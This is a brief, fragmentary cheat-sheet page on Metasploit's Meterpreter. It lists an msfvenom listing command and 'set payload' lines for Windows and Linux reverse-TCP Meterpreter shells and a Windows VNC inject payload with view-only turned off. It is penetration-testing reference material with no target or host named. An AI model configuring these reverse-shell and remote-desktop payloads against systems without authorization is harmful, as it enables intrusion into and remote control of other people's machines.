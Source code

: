 # **meterpreter**

**

## Meterpreter

**

## (msfvenom –l )  
  

**

## Windows reverse meterpreter payload

**

## (Windows reverse tcp payload)  
set payload windows/meterpreter/reverse_tcp  
  

**

## Windows VNC Meterpreter payload

**

## (Meterpreter Windows VNC Payload)  
set payload windows/vncinject/reverse_tcp  
set ViewOnly false  
  

**

## Linux Reverse Meterpreter payload

**

## (Meterpreter Linux Reverse Payload)  
set payload linux/meterpreter/reverse_tcp  
  

**

## Meterpreter Cheat Sheet

**